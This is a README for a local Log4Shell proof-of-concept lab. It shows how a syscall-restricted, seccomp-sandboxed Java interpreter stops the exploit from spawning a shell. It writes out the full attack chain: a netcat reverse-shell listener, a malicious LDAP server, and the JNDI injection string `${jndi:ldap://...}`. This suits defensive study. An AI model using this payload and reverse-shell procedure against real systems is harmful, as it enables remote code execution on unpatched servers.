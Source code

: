 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username and password when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment, defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04. 

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling
the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `mvn package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a capability-restricted Java interpreter
The ELF file of the Java interpreter `./jdk1.8.0_20/bin/java` contains information about the system calls that the interpreter requires to run the vulnerable application. In particular, the interpreter does not need to execute the `execve` system call to work properly. The `execve` system call is used to establish the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, it is not possible to establish a reverse shell with the same easy approach as described above if the vulnerable application is run in a sandbox, where it is only allowed to execute te system calls that it requires to work properly.

To test this, perform the same steps as described above, but in step 2, start the vulnerable application with the capability-aware ELF loader:
`sudo ./elf_loader ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
After performing step 5, the vulnerable application should now terminate with the message `Bad system call`, and no reverse shell should be established.


## Creating the capability-restricted Java interpreter
The capability restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed from a `root` shell:
```
strace -n -f -o trace.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace.txt | tail -n +2 | grep -E -o '\[[[:blank:]]+[[:digit:]]+\]' | grep -E -o '[[:digit:]]+' | sort -n | uniq | awk 'NR>=0{printf "%s,", $1}' | sed 's/,$//' > syscalls.txt
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command.

Lastly, the extracted system calls were added to the ELF file of the Java interpreter with the provided `elf_patcher`. 

Note that the `elf_loader` reads the required system calls added by the `elf_patcher` and installs a seccomp-BPF filter that ensures that only these system calls are allowed for the vulnerable application. 

The approach taken by the `elf_loader` has some limitations, which requires it to be run with `sudo`. These limitations can be overcome by modifying the Linux kernel to allow `execve` to take the capabilities in ELF files into acoount.






